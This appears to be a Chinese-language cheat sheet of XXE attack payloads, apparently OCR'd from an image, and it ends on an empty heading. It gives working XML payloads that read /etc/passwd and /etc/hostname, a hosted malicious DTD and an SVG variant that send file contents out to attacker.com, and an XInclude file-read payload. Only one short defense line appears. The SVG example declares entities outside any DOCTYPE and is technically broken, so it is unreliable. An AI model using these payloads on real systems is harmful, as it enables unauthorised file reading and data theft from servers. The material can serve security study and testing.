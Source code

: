 - **Payload示例**：

  ```
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
  <data>&xxe;</data>
  ```

- **漏洞原理**：XML解析器未禁用外部实体加载，导致文件读取。

- **防御**：PHP中禁用实体加载或Java中禁用DTD。

### 2. 盲注XXE（Blind OOB）

- **攻击流程**：

  1. 托管恶意DTD（`evil.dtd`）：

     ```
     <!ENTITY % file SYSTEM "file:///etc/hostname">
     <!ENTITY % oob "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?leak=%file;'>">
     %oob; %exfil;
     ```

  2. 目标XML引用外部DTD：

     ```
     <!DOCTYPE foo SYSTEM "http://attacker.com/evil.dtd">
     ```

- **关键点**：参数实体（`%`）动态构造外带请求。

### 3. SVG XXE

- **恶意SVG示例**：

  ```
  <svg xmlns="http://www.w3.org/2000/svg">
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % oob "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?leak=%file;'>">
    %oob; %exfil;
  </svg>
  ```

- **利用场景**：头像上传、图标导入等支持SVG的功能。

### 4. XInclude攻击

- **Payload**：

  ```
  <root xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
  </root>
  ```

- **适用条件**：XML片段注入且无法控制DOCTYPE时。

### 5. 本地DTD利用
